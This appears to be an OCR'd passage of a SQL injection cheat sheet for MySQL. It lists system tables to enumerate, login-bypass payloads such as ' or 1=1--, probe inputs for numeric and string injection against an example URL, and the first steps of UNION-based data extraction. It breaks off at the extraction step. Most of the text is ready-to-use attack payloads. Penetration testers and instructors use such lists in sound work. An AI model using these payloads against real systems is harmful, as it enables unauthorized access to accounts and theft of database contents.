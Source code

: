 ## Important database
```php
information_schema # MySQL system table
mysql.innodb_table_stats # tables carried by MySQL default storage engine innoDB
mysql.innodb_index_stats
sys.schema_auto_increment_columns # MySQL5.7 added
sys.schema_table_statistics_with_buffer
```

## Important Table

```php
schemata # database information
schema_name

tables # table information
table_schema
table_name

columns # field information
column_name
```

## Injection method
For example: `http://www.test.com/sql.php?id=1`.
### Universal password background login
````sql
admin' --
admin' #
admin'/*
or '=' or
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
```

### Determine whether there is injection
#### Numerical injection
 - sql.php?id=1+1
 - sql.php?id=-1 or 1=1
 - sql.php?id=-1 or 10-2=8
 - sql.php?id=1 and 1=2
 - sql.php?id=1 and 1=1

#### Character injection
 - sql.php?id=1'
 - sql.php?id=1"
 - sql.php?id=1' and '1'='1
 - sql.php?id=1" and "1"="1

### Joint query injection

````sql
# Determine how many columns are returned in a SQL statement
order by 3 --+

# View the display position
union select 1, 2, 3 --+

# Explode data
````